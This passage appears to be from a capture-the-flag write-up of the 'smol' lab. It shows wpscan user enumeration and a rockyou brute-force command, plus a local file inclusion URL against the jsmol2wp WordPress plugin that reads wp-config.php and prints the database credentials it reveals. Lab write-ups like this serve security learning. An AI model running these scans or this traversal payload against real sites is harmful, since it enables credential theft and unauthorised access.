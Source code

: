 ```bash
❯ sudo nano /etc/hosts
[sudo] password for sec-fortress: 

❯ head -10 /etc/hosts
--SNIP--
10.10.111.253   smol.thm www.smol.thm
--SNIP--
```


The analyst figured out the website was a wordpress site and decided to run the `wpscan` utility on this domain


- First to discover usernames which did not really yield any profit
- Second try to see if those usernames could be used to explore plugins indepthly which gave a positive result 


```bash
wpscan --url http://www.smol.thm/ -e u

wpscan --url http://www.smol.thm/ -U users.txt -P /usr/share/wordlists/rockyou.txt --password-attack wp-login
```


The analyst found a `jsmol2wp` plugin provided by the `wpscan` utility.


> **QUICK TIP!>** Whether or not a plugin is outdated it is worth checking if there are still available exploits for those plugins online, Most developers push one time project where security researchers might have found vulnerabilities for a very long time without remediation been considered on the project or even updates been pushed to the previous ones I.E _v1, v2, v3_.


![](https://i.imgur.com/YdVN9uq.png)


Searching for exploits for this plugin the analyst found one [Link Here](https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt), which is vulnerable to a LFI vulnerability as shown in the URL below


```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```



![](https://i.imgur.com/mvUItpK.png)


With this exploit the analyst was able to extract wordpress login credentials from the wordpress config file located under `wp-config.php`


```
/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );
```
